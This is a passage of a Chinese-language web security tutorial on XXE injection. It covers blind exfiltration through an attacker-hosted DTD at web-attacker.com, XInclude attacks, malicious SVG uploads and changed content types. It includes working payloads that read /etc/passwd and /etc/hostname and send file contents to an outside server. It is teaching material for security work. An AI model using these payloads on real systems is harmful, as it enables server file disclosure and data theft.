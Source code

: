 然后，攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到他们自己的Web服务器上。例如，攻击者可以能在以下URL上提供恶意DTD：

```url
http://web-attacker.com/malicious.dtd
```

最后，攻击者必须向易受攻击的应用程序提交以下XXE payload

```xml-dtd
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

此XXE payload声明一个调用xxe的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD并以内联方式解释它。然后执行恶意DTD中定义的步骤，并将/etc/passwd 文件传输到攻击者的服务器。

>此方法可能不适用于某些文件内容，包括 `/etc/passwd` 文件中包含的换行符。这是因为某些 XML 分析器使用 API 提取外部实体定义中的 URL，该 API 验证允许在 URL 中显示的字符。在这种情况下，可以使用 FTP 协议而不是 HTTP。有时，无法泄露包含换行符的数据，因此可以改为以 等 `/etc/hostname` 文件为目标。

### Finding hidden attack surface for XXE injection

XXE 注入漏洞的攻击面在很多情况下是显而易见的，因为应用程序的正常 HTTP 流量包括包含 XML 格式数据的请求。在其他情况下，攻击面则不那么明显。不过，只要找对地方，就能在不包含任何 XML 的请求中发现 XXE 攻击面。

**某些应用程序接收客户端提交的数据，将其嵌入到服务器端的XML文档中**，然后分析该文档。例如，将客户端提交的数据放入后端SOAP请求中，然后胡由后端SOAP服务处理该请求。

在这种情况下，无法执行经典的XXE攻击，因为无法控制整个XML文档，因此无法定义或修改元素`DOCTYPE`。但是，您也许可以改用`XInclude`。`XInclude`是XML规范的一部分，它允许从子文档构建XML文档。可以在XML文档中的任何数据值中发起攻击，因此，在仅控制放置在服务器端XML文档中的单个数据项的情况下，可以执行该`XInclude`攻击。‘

若要执行`XInclude`攻击，需要引用XInclude命名空间并提供要包含的文件的路径。

```xml-dtd
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE attacks via file upload

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式示例包括DOCX等办公文档格式和SVG等图像格式。

例如，应用程序可能允许用户上传图像，并在上传图像后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG等格式，正在使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，攻击者可以提交恶意SVG图像，从而达到XXE漏洞的隐藏攻击面。

```svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

### XXE attacks via modified content type

大多数POST请求使用由HTML表单生成的默认内容类型，例如`application/x-www-form-urlencoded` 。某些网站希望以这种格式接收请求，但会容忍其他内容类型，包括XML。

例如，如果普通请求包含以下内容

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

